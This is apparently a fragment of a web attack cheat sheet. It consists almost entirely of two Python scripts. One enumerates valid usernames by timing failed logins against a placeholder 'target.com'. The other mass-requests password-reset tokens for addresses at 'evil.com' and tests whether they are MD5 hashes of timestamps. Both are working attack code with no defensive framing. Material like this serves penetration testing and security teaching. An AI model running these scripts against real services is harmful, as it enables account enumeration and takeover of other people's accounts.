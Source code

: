 **Username Enumeration via Timing:**
```python
import requests
import time
import statistics

def timing_attack(username):
    times = []
    for i in range(10):
        start = time.time()
        r = requests.post('https://target.com/login', 
                         data={'username': username, 'password': 'wrongpassword'})
        end = time.time()
        times.append(end - start)
    
    return statistics.mean(times)

# Test different usernames
test_users = ['admin', 'user', 'nonexistent', 'test', 'guest']
for user in test_users:
    avg_time = timing_attack(user)
    print(f"{user}: {avg_time:.4f}s")
```

**Password Reset Token Attacks:**
```python
# Token entropy analysis
import requests
import re

def analyze_reset_tokens():
    tokens = []
    for i in range(100):
        r = requests.post('https://target.com/reset-password', 
                         data={'email': f'test{i}@evil.com'})
        # Extract token from email or response
        token = re.search(r'token=([a-zA-Z0-9]+)', r.text)
        if token:
            tokens.append(token.group(1))
    
    # Analyze patterns
    print(f"Collected {len(tokens)} tokens")
    print(f"Average length: {sum(len(t) for t in tokens) / len(tokens)}")
    print(f"Character set: {''.join(set(''.join(tokens)))}")
    
    # Check for time-based patterns
    import hashlib
    for token in tokens[:10]:
        print(f"Token: {token}")
        # Check if timestamp-based
        for timestamp in range(1600000000, 1700000000, 3600):
            if hashlib.md5(str(timestamp).encode()).hexdigest()[:len(token)] == token:
                print(f"  Possible timestamp: {timestamp}")
```

---